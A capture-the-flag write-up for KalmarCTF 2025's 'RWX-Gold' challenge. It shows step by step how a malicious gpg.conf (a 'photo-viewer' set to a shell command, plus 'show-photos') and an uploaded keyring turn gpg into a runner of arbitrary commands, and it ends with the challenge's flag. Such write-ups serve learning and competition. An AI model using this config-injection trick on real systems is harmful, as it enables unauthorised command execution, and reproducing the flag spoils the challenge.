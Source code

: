 ```yaml
---
title: RWX-Gold
date: 2025-03-10T03:03:41+03:00
description: Writeup for RWX-Gold [KalmarCTF 2025]
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Let's reduce that.

## Intuition

Since the challenge lets us execute a command with 3 characters we cannot directly execute `/would`, so we need to find something that can execute commands for as. This is `gpg`.

## Solution

#### Step 1 - create the `.gnupg` directory

First we need to execute `gpg` to create the directory `~/.gnupg`:
```
GET /exec?cmd=gpg HTTP/2
```

Then we can find this in `gpg` man page:
```
gpg.conf  
	This  is the standard configuration file read by gpg on startup. It may contain any valid long option; the leading two dashes may not be entered and the option may not be abbreviated. This default name may be changed on the command line (see: [gpg-option --options]).  You should backup this file.
```

So we can write configurations in `gpg.conf`. Further searching the man page for useful options you will stumble upon these:
```
--photo-viewer string
This is the command line that should be run to view a photo ID. "%i" will be expanded to a filename containing the photo. "%I" does the same, except the file  will  not be deleted once the viewer exits.  Other flags are "%k" for the key ID, "%K" for the long key ID, "%f" for the key fingerprint, "%t" for the extension of the image type (e.g.  "jpg"), "%T" for the MIME type of the image (e.g. "image/jpeg"), "%v" for the single-character calculated validity of the image being viewed (e.g. "f"), "%V" for the calculated validity as a string (e.g.  "full"), "%U" for a base32 encoded hash of the user ID, and "%%" for an actual percent sign. If neither %i or %I are present, then the photo will be supplied to the viewer on standard input.

On Unix the default viewer is xloadimage -fork -quiet -title 'KeyID 0x%k' STDIN with a fallback to display -title 'KeyID 0x%k' %i and finally to xdg-open %i. On  Windows !ShellExecute 400 %i is used; here the command is a meta command to use that API call followed by a wait time in milliseconds which is used to give the viewer time to read the temporary image file before gpg deletes it again.  Note that if your image viewer program is not secure, then executing it from gpg does not make it secure.

--list-options parameters  
This  is  a  space  or  comma  delimited  string that gives options used when listing keys and signatures (that is, --list-keys, --check-signatures, --list-public-keys, --list-secret-keys, and the --edit-key functions).  Options can be prepended with a no- (after the two dashes) to give the opposite meaning.  The options are:  
  
show-photos  
Causes --list-keys, --check-signatures, --list-public-keys, and --list-secret-keys to display any photo IDs attached to the  key. Defaults to no. See also --photo-viewer. Does not work with --with-colons: see --attribute-fd for the appropriate way to get photo data for scripts and other frontends.

--list-keys  
-k  
--list-public-keys  
List the specified keys. If no keys are specified, then all keys from the configured public keyrings are listed.
```

So a `gpg.conf` that can execute our commands would look like this:
```
list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > ~/a.txt
list-keys
```

#### Step 2 - write `gpg.conf` file
Request:
```
POST /write?filename=/home/user/.gnupg/gpg.conf HTTP/2

list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > ~/a.txt
list-keys
```

Now executing `gpg` won't execute our command because there are no `keyrings` on the remote machine that have images to display. We need to write a key that has an image to display in `~/.gnupg/pubring.kbx`.

#### Step 3 - create the `pubring.kbx` file

On your machine you can follow the commands (for the `jpg` image I used [this](https://github.com/mathiasbynens/small/blob/master/jpeg.jpg)):
```sh
gpg --gen-key
# input a name, email and password (eg. John Doe, john@gmail.com, 1234)
gpg --edit-key john@gmail.com
> addphoto /paht/to/jpg # careful if you use my jpg image, it is a pixel small, look carefully when it is displayed
> save
```

You file should be saved at `~/.gnupg/pubring.kbx`.

Request:
```
POST /write?filename=/home/user/.gnupg/pubring.kbx HTTP/2

<Your pubring.kbx file content here. (you can use a python script for this request)>
```

#### Step 4 - get the flag

Execute `gpg`:
```
GET /exec?cmd=gpg HTTP/2
```

Read the flag:
```
GET /read?filename=/home/user/a.txt HTTP/2
```

### Flag

`kalmar{so_many_rabbit_holes_to_get_stuck_in_but_luckily_you_found_a_way_to_view_that_picture_678cac2678d0}`

## References
[gpg manpage](https://www.gnupg.org/documentation/manuals/gnupg24/gpg.1.html)
